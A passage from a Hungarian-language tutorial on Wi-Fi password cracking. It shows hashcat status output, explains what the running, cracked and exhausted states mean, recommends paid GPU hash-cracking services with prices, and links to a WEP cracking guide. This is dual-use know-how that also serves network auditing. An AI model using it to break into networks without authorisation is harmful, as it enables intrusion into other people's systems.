Candidates.#1....: mfvytane -> mmcjyone
Candidates.#2....: msefpone -> mzjmalll
Candidates.#3....: carierin -> cgvytane
HWMon.Dev.#1.....: Temp: 59c Fan:  0% Util: 96% Core:1455MHz Mem:4428MHz Bus:1
HWMon.Dev.#2.....: Temp: 55c Fan:  0% Util: 98% Core:1379MHz Mem:4428MHz Bus:1
HWMon.Dev.#3.....: Temp: 51c Fan:  0% Util: 99% Core:1404MHz Mem:3903MHz Bus:1
```


A státusz háromféle lehet: 
- **running**: még fut. 
- **cracked**: Megtalálta a jelszót. A -o-val megadott fájlba rakta. 
- **exhausted**: végig ment a teljes megadott karakter univerzumon, de nem találta meg a jelszót


<br>

<br>


## GPU hash szolgáltatók

Talán az egyetlen szóba jöhető módszer, ha egy hash törő szolgáltatást veszünk igénybe, akik valamennyi BTC-ért cserébe visszafejtik pillanatok alatt a hash kódot. 


### gpuhash.me

A https://gpuhash.me/ 0.001 BTC-t kér a törésért, amit kevesebb mint 15 perc alatt el is végeztek. Figyelemre méltó. Ráadásul csak akkor kell kifizetni, ha meg is találta. <br>

Képes brute-force törésre is, de az sokkal többe kerül, kb 0.005 BTC. 


 
<!--  -->


### onlinehashcrack

Valamivel olcsóbb, mert csak 5 eurót kérnek a törését, és email címet is kérnek, ahol értesítenek, tehát kevéssé diszkrét.


<br>


# WEP hálózat feltörése

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack


